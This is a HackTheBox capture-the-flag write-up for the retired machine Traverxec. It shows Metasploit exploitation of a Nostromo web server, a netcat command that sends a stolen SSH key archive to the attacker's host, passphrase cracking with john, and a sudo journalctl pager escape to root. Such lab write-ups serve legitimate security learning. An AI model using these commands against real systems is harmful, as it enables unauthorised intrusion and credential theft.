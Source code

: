 ```yaml
---
title: "HackTheBox: Traverxec"
collection: publications
permalink: /publication/traverxec
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-03
venue: '08-03'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/traverxec_header.png)

**LINK:** [Traverxec](https://app.hackthebox.com/machines/Traverxec)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
nmap -sV -sC -A -p- 10.10.10.165
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-03 06:19 EDT
Nmap scan report for 10.10.10.165
Host is up (0.19s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa99a81668cd41ccf96c8401c759095c (RSA)
|   256 93dd1a23eed71f086b58470973a388cc (ECDSA)
|_  256 9dd6621e7afb8f5692e637f110db9bce (ED25519)
80/tcp open  http    nostromo 1.9.6
|_http-server-header: nostromo 1.9.6
|_http-title: TRAVERXEC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.18 (92%), Linux 3.2 - 4.9 (92%), Linux 5.1 (92%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

the scan reveals 2 open ports :
 * ``SSH`` running on port 22.
 * ``Nostromo`` web server running on port 80.


* Visiting ``http://10.10.10.165``, we see this web page.

![traverxec1](/images/traverxec1.png)

# Initial foothold : 

* I spent some time exploring the web page( source code, hidden directories...) but i didn't find anything interesting.

* One of the information that we found earlier was the version of ``nostromo`` which is ``1.9.6``, a quick research on google i found that this version of ``nostromo`` is vulnerable to ``remote code execution``.

>[Exploit-DB](https://www.exploit-db.com/exploits/47837)
>[Rapid7](https://www.rapid7.com/db/modules/exploit/multi/http/nostromo_code_exec/)

* I used ``metasploit`` to exploit this vulnerability, you can also use the python exploit that we found on ``Exploit-DB``.
* Let's fire up metasploit and choose the module related to this vulnerability

```bash
# msfconsole
msf > use exploit/multi/http/nostromo_code_exec
```

* Time to set some options before we exploit the server.

```bash
msf exploit(multi/http/nostromo_code_exec) > set target 1
msf exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
msf exploit(multi/http/nostromo_code_exec) > set LHOST <your-ip-address>
msf exploit(multi/http/nostromo_code_exec) > exploit
```

* After few seconds, we got the shell as ``www-data`` user.

![traverexec2](/images/traverexec2.png)


# User Flag : 

* Next step is to escalate our shell to ``David's``.
* Visiting the ``/var/nostromo/conf`` directory, we see a file named ``nhttpd.conf`` contains the web server configuration.

```bash
[snip]
# HOMEDIRS [OPTIONAL]

homedirs /home
homedirs_public public_www
[snip]
```

* This configuration indicates that there might be a folder named ``public_www`` in the user's home directory, earlier i did notice that the david's home directory is not readable, however the ``public_www`` is readable.

* the ``public_www`` folder contains a subfolder named ``protected-file-area`` where i found a compressed file named ``backup-ssh-identity-files.tgz``.

![traverexec3](/images/traverexec3.png)

* There are a lot of ways to transfer the compressed file to our local machine, i used ``netcat`` for this purpose.

* on our local machine : 

```bash
# nc -lvp 1234 > backup-ssh-identity-files.tgz
```
* On the victim machine : 

```bash
# nc <your-ip-address> 1234 < backup-ssh-identity-files.tgz
```

* Since it's a tar archive, let's use ``tar`` command to extract it.

```bash
# tar -xvf backup-ssh-identity-files.tgz
```

![traverexec4](/images/traverexec4.png)

* I found the private key for ``SSH``, so maybe we can login as ``david``.

```bash
chmod 400 id_rsa
```

* Unfortunately the privte key is encrypted so we need the passphrase.

![traverexec5](/images/traverexec5.png)

* let's try to crack it with ``john``, first we will extract the hash from the private key.

```bash
# ssh2john id_rsa > id.hash 
```

* Time to crack it 

![traverexec6](/images/traverexec6.png)

* Now that we have the passphrase let's login.

![traverexec7](/images/traverexec7.png)


# Root Flag : 

* There is a folder called ``bin`` inside david's home directory, let's examine the ``server-stats.sh`` script.

![traverexec8](/images/traverexec8.png)

* We can see that the last command is executed using ``sudo``, after executing the script we can see that it displays the last 5 lines of the nostromo service logs using journalctl.

* A quick visit to [GTFOBins](https://gtfobins.github.io/gtfobins/journalctl/#sudo), i found out that ``journactl`` is exploitable because it invokes the default pager which is likely to be ``less``, the ``less`` command waits for user input after displaying the output so at that moment we can spawn a shell as sudo.

* before running the following command, you should resize the screen by maximizing it in order to spawn the shell : 

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

![traverexec9](/images/traverexec9.png)

* Enter the following command : 

```bash
!/bin/bash
```

![traverexec10](/images/traverexec10.png)

* Now it's time to get the root flag

![traverexec11](/images/traverexec11.png)












